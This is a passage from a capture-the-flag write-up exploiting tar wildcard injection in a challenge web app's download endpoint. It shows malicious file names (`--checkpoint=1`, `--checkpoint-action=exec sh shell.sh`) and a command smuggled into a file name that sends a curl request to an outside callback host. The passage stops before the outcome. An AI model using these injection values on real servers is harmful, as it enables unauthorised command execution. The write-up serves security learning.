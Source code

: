 However, we can see that the `/api/download` functionality uses `os.system` to perform a wildcard `tar` operation :

```python
os.system(f"cd uploads/{g.uuid}/ && tar -cf out.tar *")
```

This takes every files within our upload folder and create a `.tar` archive. tar wildcards is a well-known vector for arbitrary command execution. In fact, it is possible to supply arguments as filename and to execute arbitrary OS commands using the checkpoint arguments :

```txt
      --checkpoint[=NUMBER]
              display progress messages every NUMBERth record (default 10)

       --checkpoint-action=ACTION
              execute ACTION on each checkpoint
```

Looks like we've just found our entry point! Let's see how we can exploit it.

## Exploit

We tried at first to upload a bash script and to see if we could execute it to have a callback.

1. upload a file named `--checkpoint=1`
2. upload a file named `--checkpoint-action=exec sh shell.sh`
3. upload the `shell.sh` script :

```bash
#!/bin/bash

curl -X POST -d 'Hello World!' https://happi.requestcatcher.com/test
```

We upload the various files and and then... TADA!
![image](/assets/img/posts/byuctf24/no-req.png)

Shit, we didn't get any callback, what the hell happened. Had to get back to source code to see what happened.

The challenge creator played a trick on us: the files are actually uploaded without their content as he used `file = request.files.get('file', None)` instead of `file = request.files[file]`. Our `shell.sh` script is therefore empty !

What's left then ? To deal with this, we tried to use bash commands directly in the filename. We try to upload a file with name `--checksec-action=exec=sh curl -X POST -d 'Hello World!' https://happi.requestcatcher.com/test` directly and see if we can get a callback now.
